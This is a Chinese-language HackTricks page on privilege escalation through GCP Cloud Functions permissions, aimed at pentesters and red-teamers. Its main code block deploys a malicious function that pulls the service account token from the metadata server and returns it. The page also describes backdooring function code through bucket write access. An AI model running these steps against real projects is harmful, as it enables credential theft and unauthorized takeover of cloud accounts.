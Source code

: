 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## cloudfunctions

有关 Cloud Functions 的更多信息：

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

拥有这些权限的攻击者可以**创建一个带有任意（恶意）代码的新 Cloud Function，并将其分配给一个服务账户**。然后，从元数据中泄露服务账户令牌以提升权限。\
可能需要一些权限来触发该函数。

此方法的利用脚本可以在 [这里](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py) 和 [这里](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py) 找到，预构建的 .zip 文件可以在 [这里](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions) 找到。

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

拥有这些权限的攻击者可以**修改函数的代码，甚至修改附加的服务账户**，以提取令牌。

{% hint style="danger" %}
为了部署云函数，您还需要对默认计算服务账户或用于构建映像的服务账户具有 actAs 权限。
{% endhint %}

可能需要一些额外的权限，例如版本 1 cloudfunctions 的 `.call` 权限或角色 `role/run.invoker` 来触发该函数。
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
如果您收到错误 `Permission 'run.services.setIamPolicy' denied on resource...`，这意味着您正在使用 `--allow-unauthenticated` 参数，并且您没有足够的权限。
{% endhint %}

此方法的利用脚本可以在 [这里](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py) 找到。

### `cloudfunctions.functions.sourceCodeSet`

通过此权限，您可以获取一个**签名 URL，以便将文件上传到函数存储桶（但函数的代码不会被更改，您仍然需要更新它）**
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

从攻击者的角度来看，仅有这个权限的实用性不太确定，但知道这一点是好的。

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

给自己任何之前的 **`.update`** 或 **`.create`** 权限以进行升级。

### `cloudfunctions.functions.update`

仅拥有 **`cloudfunctions`** 权限，而没有 **`iam.serviceAccounts.actAs`**，你 **将无法更新函数，因此这不是有效的权限提升。**

### 对存储桶的读写访问

如果你对存储桶有读写访问权限，你可以监控代码的变化，并且每当 **存储桶中发生更新时，你可以用自己的代码更新新代码**，这样新版本的 Cloud Function 将运行提交的后门代码。

你可以在以下链接中查看更多关于攻击的信息：

{% content-ref url="gcp-storage-privesc.md" %}
[gcp-storage-privesc.md](gcp-storage-privesc.md)
{% endcontent-ref %}

然而，你不能用这个来预先攻陷第三方 Cloud Functions，因为如果你在你的账户中创建存储桶并给予公共权限以便外部项目可以在其上写入，你会收到以下错误：

<figure><img src="../../../.gitbook/assets/image (1) (1).png" alt="" width="304"><figcaption></figcaption></figure>

{% hint style="danger" %}
然而，这可以用于 DoS 攻击。
{% endhint %}

### 对 Artifact Registry 的读写访问

当创建 Cloud Function 时，一个新的 docker 镜像会被推送到项目的 Artifact Registry。我尝试用一个新的镜像修改当前镜像，甚至删除当前镜像（和 `cache` 镜像），但没有任何变化，cloud function 继续工作。因此，也许 **可能可以利用竞争条件攻击**，像对存储桶那样更改将要运行的 docker 容器，但 **仅仅修改存储的镜像并不能攻陷 Cloud Function**。

## 参考文献

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
